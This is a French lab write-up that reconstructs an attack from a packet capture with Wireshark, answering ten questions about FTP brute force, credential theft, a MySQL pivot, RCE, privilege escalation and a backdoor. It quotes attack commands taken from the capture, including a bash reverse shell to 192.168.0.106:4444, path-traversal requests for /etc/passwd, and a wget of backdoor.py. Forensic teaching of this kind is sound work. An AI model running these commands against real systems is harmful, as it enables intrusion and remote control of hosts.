# Lab 05 : Forensique du trafic réseau

> Write-up de la série sur le dépôt [vonderchild/digital-forensics-lab](https://github.com/vonderchild/digital-forensics-lab).
> Chaque exercice est traité comme une investigation : démarche, outils et raisonnement, pas seulement la réponse.

## L'énoncé



## Introduction

Quand un incident survient sur un réseau, la capture du trafic (un fichier `.pcap` ou `.pcapng`) est souvent la boîte noire de l'attaque : chaque paquet échangé y est enregistré. La **forensique réseau** consiste à rejouer cette boîte noire pour reconstituer ce qui s'est passé, qui a parlé à qui, quelles données ont circulé, et jusqu'où l'attaquant est allé.

Dans ce lab, on dispose d'une seule capture, `challenge.pcapng`, prise pendant la compromission d'un serveur. L'objectif est de **reconstruire toute la chaîne d'attaque** et de répondre aux dix questions posées. On va voir que l'attaquant enchaîne les étapes : un mot de passe FTP forcé, des identifiants volés, un pivot vers une base de données, une exécution de code à distance, un shell inversé, une élévation vers root, et enfin une porte dérobée pour garder l'accès.

## Rappels : les fondamentaux réseau

Trois notions suffisent à démarrer toute analyse réseau.

* **Adresse IP** : l'identifiant unique d'une machine sur le réseau (exemple `192.168.0.110`). Ici deux IP reviennent : `192.168.0.106` (l'attaquant) et `192.168.0.110` (la victime).
* **Protocole** : l'ensemble des règles qui régissent un échange (HTTP pour le web, FTP pour le transfert de fichiers, etc.).
* **Port** : un numéro qui identifie le service visé sur une machine. C'est souvent le port qui trahit le protocole employé.

| Protocole | Port |
|---|:---:|
| FTP (transfert de fichiers) | 21 |
| SSH | 22 |
| DNS | 53 |
| HTTP | 80 |
| HTTPS | 443 |
| MySQL | 3306 |
| ICMP (ping) | aucun |

## La boîte à outils Wireshark

Wireshark est l'outil central de ce lab. Quatre fonctions suffisent à mener l'enquête, et ce sont celles qu'on utilisera à chaque étape.

* **Protocol Hierarchy** (menu *Statistics*) : donne la liste de tous les protocoles présents dans la capture et leur proportion. C'est toujours le **premier geste** : il dit où regarder.
* **Les filtres d'affichage** (la barre en haut) : permettent de n'afficher que le trafic voulu. On écrira par exemple `ftp`, `http`, `mysql`, ou `tcp.port == 4444`.
* **Follow TCP Stream** (clic droit sur un paquet) : reconstitue une **conversation complète** entre deux machines, du premier au dernier octet. C'est l'outil qui transforme une pluie de paquets en texte lisible.
* **Export Objects** (menu *File*) : extrait les **fichiers** transférés, notamment par HTTP.

## Le fil de l'attaque, en une phrase

Mot de passe FTP forcé, vol d'un fichier d'identifiants de base de données, connexion à MySQL et vol du mot de passe root, exécution de code à distance via une page web, shell inversé, élévation vers root, puis dépôt d'une porte dérobée obfusquée. On déroule maintenant chaque maillon.

---

## Résolution, question par question

### Question 1 : les protocoles présents

**Premier réflexe**, la vue d'ensemble : *Statistics → Protocol Hierarchy*.



La capture contient **ICMP, TCP, TLS, MySQL, HTTP et FTP** (avec son canal de données FTP-DATA). Cette simple liste annonce déjà le scénario : du FTP (transfert de fichiers), du MySQL (une base de données) et du HTTP (une application web) sont en jeu.

### Question 2 : le mot de passe FTP correct

L'énoncé parle d'un **brute force** sur le FTP. On filtre donc sur `ftp` et on cherche l'anomalie : au milieu d'une avalanche de réponses `530 Login incorrect`, une seule réponse diffère.



La réponse **`230 Login successful`** marque le mot de passe qui a fonctionné. Pour le lire, on suit la conversation (*Follow → TCP Stream*).



Le FTP n'étant pas chiffré, tout circule en clair : `USER ftp` puis **`PASS batman`**, suivi de `230 Login successful`. **Le mot de passe est `batman`.**

> À retenir : un brute force se repère à la répétition d'échecs suivie d'un unique succès, et un protocole en clair comme le FTP expose directement les identifiants.

### Question 3 : les informations volées sur le compte FTP

La même conversation montre l'attaquant exécuter `RETR credentials.txt` puis `RETR .bash_history`. Attention au piège : en FTP, le **canal de commande** (port 21) transporte les ordres, mais le **contenu des fichiers** passe sur un **canal de données séparé** (les ports hauts des `Entering Passive Mode`). Pour lire le contenu, on filtre donc sur `ftp-data`.



On suit alors le flux de `credentials.txt` :



Le fichier contient des **identifiants de base de données** laissés en clair par la victime :
```
username: myuser
password: P@ssw0rd123456!
```

### Question 4 : ce que l'attaquant fait de ces informations

Souviens-toi de la Question 1 : il y avait du **MySQL** dans la capture. L'hypothèse logique est que l'attaquant a réutilisé les identifiants volés pour se connecter à la base. On filtre sur `mysql` et on suit le flux.



C'est exactement ça : `Login Request user=myuser`, puis une exploration méthodique de la base : `show databases` (→ `testdb`), `show tables` (→ une table **`root_credentials`**), `describe root_credentials`, et enfin `select * from root_credentials`. **L'action menée est donc une connexion à MySQL avec les identifiants volés, suivie du vol du contenu de la table `root_credentials`.** C'est du *credential chaining* : un secret en amène un autre.

### Question 5 : le mot de passe du compte root

La requête `select * from root_credentials` renvoie directement la réponse, en clair dans le flux :



La table livre un couple `username = root`, `password = `**`1amgr000000t!@#$`**.

### Question 6 : la vulnérabilité RCE et la charge utile exacte

On passe au web : filtre `http`.



Deux failles apparaissent. D'abord une **inclusion de fichier (path traversal)** : `GET /images.php?file=../../../../etc/passwd` et `GET /view.php?image=../../../etc/passwd`, qui lisent `/etc/passwd`. Ensuite, et c'est la vulnérabilité d'exécution de code demandée, trois requêtes **`POST /command.php`** aux **paquets 2665, 2674 et 2678**.

Pour lire la charge utile exacte, on clique sur le paquet, puis dans les détails on déplie **HTML Form URL Encoded** : le champ du formulaire s'affiche décodé.



Les charges sont : `cmd=ls` (reconnaissance, paquet 2665), puis un **reverse shell** aux paquets 2674 et 2678 :
```
bash -i >& /dev/tcp/192.168.0.106/4444 0>&1
```
(le paquet 2678 l'enveloppe dans `bash -c '...'`, une seconde tentative). Un reverse shell retourne la logique habituelle : c'est **la victime qui se connecte vers l'attaquant** (`192.168.0.106`) sur le port `4444`, et lui ouvre un shell interactif.

### Question 7 : ce que fait l'attaquant une fois entré

Toute la post-exploitation se passe désormais dans ce shell, sur le port 4444. On filtre sur `tcp.port == 4444` et on suit le flux.



Le déroulé est limpide. L'attaquant atterrit comme **`www-data`**, explore `/var/www/html`, tente un `cat flag.txt` qui le nargue (« No flag for you »), puis **monte en root** : il stabilise d'abord son shell avec `python3 -c "import pty; pty.spawn('/bin/bash')"` (indispensable pour que `su` accepte un mot de passe), puis `su root` avec **`1amgr000000t!@#$`**. Le `id` confirme `uid=0(root)`. Le mot de passe volé à la Question 5 lui sert donc à devenir root.

### Question 8 : le fichier lu dans le répertoire de root

Toujours dans le même flux, une fois root, l'attaquant lit un fichier du dossier `/root` :



`cat gr00t.txt` affiche un message de félicitations et un flag :
```
flag{1_4m_gr00000t!}
```

### Question 9 : le fichier téléchargé et son but

Juste après, l'attaquant télécharge un fichier dans `/root` :



Il lance `wget` sur **`backdoor.py`**, puis `python3 backdoor.py &`. Le `netstat -tunlp` révèle le but : le programme se met **en écoute sur le port `5555`**. C'est donc une **porte dérobée de persistance**, destinée à garder un accès au système même si le shell inversé est coupé. L'attaquant la lance en arrière-plan, puis exécute `rm backdoor.py` pour **effacer ses traces** (anti forensique).

### Question 10 : les informations transmises par le canal caché

Le canal secret que l'attaquant vient d'établir, c'est précisément cette porte dérobée sur le port 5555. On filtre sur `tcp.port == 5555` et on suit le flux.



La porte exige une authentification (`admin` / `b4ckd00r` → « Successfully loged in! »). Ensuite, on voit des commandes **obfusquées** (des chaînes hexadécimales comme `1f067a`, `10140445152d...`) alternant avec des réponses en clair (un `ls`, un `id` montrant `uid=0(root)`, le flag `flag{1_4m_gr00000t!}`). Cette obfuscation est exactement ce qui rend le canal *covert* : les commandes ne se lisent pas directement.

Pour comprendre l'encodage, on lit le code de la porte dérobée (le fichier `backdoor.py` fourni avec le lab) :

